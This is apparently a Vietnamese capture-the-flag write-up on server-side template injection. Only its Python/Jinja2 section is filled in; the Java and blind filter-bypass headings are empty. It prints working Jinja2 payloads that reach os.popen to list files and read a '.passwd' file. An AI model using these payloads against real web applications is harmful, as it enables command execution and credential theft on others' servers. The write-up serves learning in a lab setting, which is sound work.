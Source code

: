 # Trần Mạnh Huy

* [Python - Server-side Template Injection Introduction](#python---server-side-template-injection-introduction)
* [Java - Server-side Template Injection](#java---server-side-template-injection)
* [Python - Blind SSTI Filters Bypass](#Python - Blind SSTI Filters Bypass)


## Python - Server-side Template Injection Introduction

```
Statement

This service allows you to generate a web page. Use it to read the flag!

```

#### Đễ thấy ứng dụng nhận vào hai tham số trong đó giá trị content gặp phải lỗ hổng SSTI, thử với payload **{{10*10}}** trong phần content được server trả về kết quả: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_01.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_02.jpg)

Do kết quả trả về là "10101010101010101010" nên có thể xác nhận template được dùng ở đây là jinja2, còn nếu trả về 100 thì sẽ là template twig.

#### Đã xác định được template là jinja2, ta có thể build được payload khai thác từ nó
Dùng TemplateReference object để import các module bằng payload:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls').read() }}

```
Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_03.jpg)

#### Thay payload trên bằng {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls -lsa').read() }}

Thấy được file .passwd. Sửa payload thành : **{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('cat .passwd').read() }}** ta được pass để giải chall này

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_04.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_06.jpg)


## Java - Server-side Template Injection

## Python - Blind SSTI Filters Bypass
